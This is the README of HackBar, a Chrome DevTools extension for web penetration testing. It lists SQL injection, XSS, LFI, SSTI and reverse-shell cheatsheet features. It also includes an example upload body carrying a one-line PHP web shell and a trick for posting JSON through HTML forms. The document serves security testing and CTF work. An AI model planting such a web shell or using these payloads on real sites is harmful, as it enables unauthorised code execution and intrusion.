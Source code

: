 # HackBar

HackBar for Chrome.

Available on [Chrome Web Store](https://chrome.google.com/webstore/detail/hackbar/ginpbkfigcoaokgflihfhhmglmbchinc).

## Requested Permissions

- storage
  - Save theme preferences
- scripting
  - Perform POST request
  - Run test function
- webRequest
  - Remember request information
  - Listen finish event to clean up
- declarativeNetRequest
  - Set HTTP header value based on settings

## Features

- Supported methods

  - GET
  - POST
    - application/x-www-form-urlencoded
    - [multipart/form-data](#multipartform-data)
    - [application/json](#applicationjson)

- Auto Test

  - Common paths (Wordlist from [dirsearch](https://github.com/maurosoria/dirsearch/blob/master/db/dicc.txt) included)

- SQLi

  - Dump all database names (MySQL, PostgreSQL)
  - Dump tables from database (MySQL, PostgreSQL, SQLite)
  - Dump columns from database (MySQL, PostgreSQL, SQLite)
  - Union select statement (MySQL, PostgreSQL, SQLite)
  - Error-based injection statement (MySQL, PostgreSQL)
  - [Dump in one shot payload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md#mysql-dios---dump-in-one-shot) (MySQL)
  - [Dump current query payload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md#mysql-current-queries) (MySQL)
  - Space to Inline comment

- XSS

  - Vue.js XSS payloads
  - Angular.js XSS payloads for strict CSP
  - Some snippets for CTF
  - Html encode/decode with hex/dec/entity name
  - String.fromCharCode encode/decode

- LFI

  - PHP wrapper - Base64

- SSTI

  - Jinja2 SSTI ([Flask RCE Reference](https://twitter.com/realgam3/status/1184747565415358469))
  - Java SSTI

- Shell

  - Python reverse shell cheatsheet
  - bash reverse shell cheatsheet
  - nc reverse shell cheatsheet
  - php reverse shell/web shell cheatsheet

- Encoding

  - URL encode/decode
  - Base64 encode/decode
  - Hexadecimal encode/decode
  - Unicode encode/decode
  - Escape ASCII to hex/oct format

- Hashing
  - MD5
  - SHA1
  - SHA256
  - SHA512

## Usage

### How to open it?

1. Open **Developer tools** (Press `F12` or `Ctrl + Shift + I`)
2. Switch to **HackBar** tab
3. Enjoy it

### Shortcuts

| Description | Default   | Mac           |
| ----------- | --------- | ------------- |
| Load        | `Alt + A` | `Control + A` |
| Split       | `Alt + S` | `Control + S` |
| Execute     | `Alt + X` | `Control + X` |

### Supported enctype

#### multipart/form-data

After changing **enctype** field to `multipart/form-data`, you can put your payload into **Body** field such as the following:

```text
------WebKitFormBoundarydbJBATDXCC6CL0lZ
Content-Disposition: form-data; name="user"

user
------WebKitFormBoundarydbJBATDXCC6CL0lZ
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: application/x-httpd-php

<?php passthru($_GET['c']); ?>
------WebKitFormBoundarydbJBATDXCC6CL0lZ--
```

We will consider the first line as boundary, and reconstruct a form element to send your request.

Therefore, sent boundary will not be the same as your typed.

#### application/json

After changing **enctype** field to `application/json`, you can put your payload into **Body** field such as the following:

```json
{
  "username": "admin",
  "password": "admin"
}
```

If your payload doesn't contain `=`:

In order to post JSON data, we will insert a dummy field or object to your JSON such as the following:

```json
{ "username": "admin", "password": "admin", "4dxnzjzd5mi": "=" }
```

For more details, please visit "[Posting JSON with an HTML Form](https://systemoverlord.com/2016/08/24/posting-json-with-an-html-form.html)".

## Third-party Libraries

See `package.json` for details.

## Contributor

- [lebr0nli](https://github.com/lebr0nli)
- [boylin0](https://github.com/boylin0)
